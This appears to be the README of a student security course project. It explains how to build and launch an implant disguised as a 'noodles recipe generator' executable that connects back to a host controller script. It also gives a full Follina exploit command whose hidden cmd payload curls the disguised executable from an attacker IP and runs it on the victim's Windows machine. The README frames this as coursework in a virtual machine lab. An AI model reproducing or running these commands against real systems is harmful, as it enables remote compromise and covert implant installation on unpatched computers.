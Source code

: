 # CS564_FinalProject
By Samuel Almeida, Arjun Viswanathan, and Ben Esenther

# How to run

Running our code can be done via the Python files alone or using the executable and the Follina vulnerability. Note that the executable is too large to have on this repository, but it can be created using the following command: \
```pyinstaller --onefile --add-binary "gui.py;." noodles_recipe_generator.py``` 

This will create a .exe file in the dist directory on your filesystem.

## Without the Follina Vulnerability
To run the executable, run \
```start /B noodles_recipe_generator.exe <IPADDR>``` \
IPADDR: is the IP address of your host system that the implant connects to. 

To run the host, run \
```python host.py IPADDR``` \
IPADDR: is the IP address of your host system that the implant connects to. 

## With the Follina Vulnerability
Firstly, you will need to create a Windows 10 (pre May 2022) Virtual Machine. No requirement for the software. Just use the browser on Windows 10

To run the exploit, run \
```sudo python follina.py -m command -u <IPADDR> -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c curl http://<IPADDR>/noodle_recipes_generator.exe -o c:\users\user\noodle_recipes_generator.exe && start /B c:\users\user\noodle_recipes_generator.exe <IPADDR>'" -t docx``` 

To run the host, run \
```python host.py <IPADDR>``` 

Again, IPADDR is your host machine IP address. 
